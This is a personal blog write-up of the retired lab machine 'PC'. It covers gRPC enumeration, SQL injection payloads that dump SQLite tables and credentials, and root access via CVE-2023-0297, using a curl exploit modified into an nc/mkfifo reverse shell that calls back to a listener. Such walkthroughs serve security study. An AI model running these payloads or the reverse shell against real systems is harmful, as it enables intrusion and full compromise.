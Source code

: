 ```yaml
---
title: "PC (Linux) Write-Up"
date: 2025-07-09T17:53:21-05:00
draft: false
author: Jarpiano
tags:
image: /images/pc-banner.png
description: 
toc:
center: true
---
```

# PC (Linux) WriteUp
PC is a retired machine focusing on gRPC, SQL injection, and privilege escalation via an RCE vulnerability. We can refer to `CVE-2023-0297` for escalation.

## Initial Foothold
We can enumerate open ports using `nmap`:

```
sudo nmap <IP> -sS -Pn -n --disable-arp -p-
```

I'm using a SYN scan with these options to optimize for speed. The full range of ports is also scanned. The above command yields two ports: `22` and `50051`. Port 22 is an SSH port and the challenge description tells us that port 50051 could be a gRPC endpoint. Doing a more detailed scan on port 50051 using `--script grpc-discovery` along with `-sC`, `-sV`, and `-A` should help us verify.

Alright, to get in contact with the server. I used two services: [grpcurl](https://github.com/fullstorydev/grpcurl) and [grpcui](https://github.com/fullstorydev/grpcui). The former is more hands-on. I was able to list out the services on the endpoint using:
```
grpcurl --plaintext <IP>:<PORT> list
```
I found the SimpleApp service. Then I used the following to find the methods:
```
grpcurl --plaintext <IP>:<PORT> describe SimpleApp
```
This helped me find LoginUser, RegisterUser, and getInfo. From this point onwards, an explanation with grpcurl is personally more repetitive command wise, so I'll switch to grpcui.

After cloning the repo, we can `cd` to its root and run:
```
go run ./cmd/grpcui/grpcui.go -plaintext <IP>:<PORT>
```
This gives a webpage at `http://127.0.0.1/<RANDOM-PORT>`. From here, all the methods and our service are already there.

![image](/images/pc-image1.png)

We can see that grpcui also grabbed us some arguments we can use. Let's try a random user like `poison:poison`. 

![image](/images/pc-image2.png)

Let's use RegisterUser to create a new user. When we check back on our response code, we get:
```
{
  "message": "Account created for user poison!"
}
```
Alright in that case, let's login. We get a new message as well as a token:
```
{
  "message": "Your id is 652."
}
```

```
token:b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoicG9pc29uIiwiZXhwIjoxNzUyMTA5NTYwfQ.RbCLN3s2zzm4FqP5RBFA-KwinrZSoaPZf28SSACo38Y'
```
On further inspection of getInfo, we can use this to get some output from the getInfo method. This point was full of trial of error, so I'm gonna skip a few steps. The challenge description described a SQL issue, so I started from there. However, I discovered that after a few minutes, the token and the ID eventually expired. This required me to create a new account to avoid the error.

However, I also tried some default credentials and found that `admin:admin` was a user on the LoginUser method. Then, I tried seeing if the ids associated with admins had anything in getInfo. Entering 1 into the id parameter yielded new results. Also need to mention that the token used for the `1` id didn't matter as long as one was used.

```
{
  "message": "The admin is working hard to fix the issues."
}
```

We get the above message. My next step was then trying out all my SQL injection known payloads. I found the vulnerability in the id parameter and eventually worked out that the single quote had to URL encoded to proceed, giving us: `1%27`.

Much trial and error gave me the payload:
```
1%27 UNION SELECT 1;
```

Attempting to add another statement to the payload such as `1%27; SELECT * FROM...` gave me an error exposing the database as a SQLITE. From here we could test if `1$27 UNION SELECT sqlite_version()` worked. Bingo.
We got the following:
```
{
  "message": "3.31.1"
}
```
When I attempted some other payloads, the statement `"The admin is working hard to fix the issues."` was often in the way. We can explore the other outputs by using `LIMIT` and `OFFSET`. These were used to scavenge the database:

**To search for tables**:
```
1%27 UNION SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 2; 
```

**To search for column names on the tables:**
```
1%27 UNION SELECT name FROM PRAGMA_TABLE_INFO('accounts') LIMIT 1 OFFSET 1;
```
And subsequently:
```
1%27 UNION SELECT name FROM PRAGMA_TABLE_INFO('accounts') LIMIT 1 OFFSET 2;
```

Then, I used the following, changing up the offset value when needed:
```
1%27 UNION SELECT username FROM accounts LIMIT 1 OFFSET 0;
```
For username and password respectively.
```
1%27 UNION SELECT password FROM accounts LIMIT 1 OFFSET 0;
```
In total this yielded valuable information:

| Username | Password               |
| -------- | ---------------------- |
| admin    | admin                  |
| sau      | HereIsYourPassWord1431 |
`sau` was a valid user for SSH, so I logged in using their credentials. 

## Privilege Escalation
The description say that we could gain a foothold using `CVE-2023-0297`. I spent some time jumping around here, but the most useful was [this](https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65) bounty that used the following command as PoC:
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
Running this commands creates a `/tmp/pwnd` file that's owned by root. I modified this command to send me a reverse shell. First let's set up our listener:
```
nc -lvnp 1234
```

We need to use pyimport to fully exploit it:
```
pyimport os;os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LISTENER-IP> 1234 >/tmp/f")
```
This should be encoded in hex with `%` separators. We also should get rid of the `Content-Length` header to avoid any issues. This should give us:
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'package=xxx&crypted=AAAA&jk=<HEX-PAYLOAD>;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
If this doesn't work, try to put a `%` sign at the beginning of the hex payload if there isn't one already.

Alright, I got back a root shell!

![image](/images/pc-image3.png)

`cd` into root, cat to stdout, and we're finished.

**Fin.**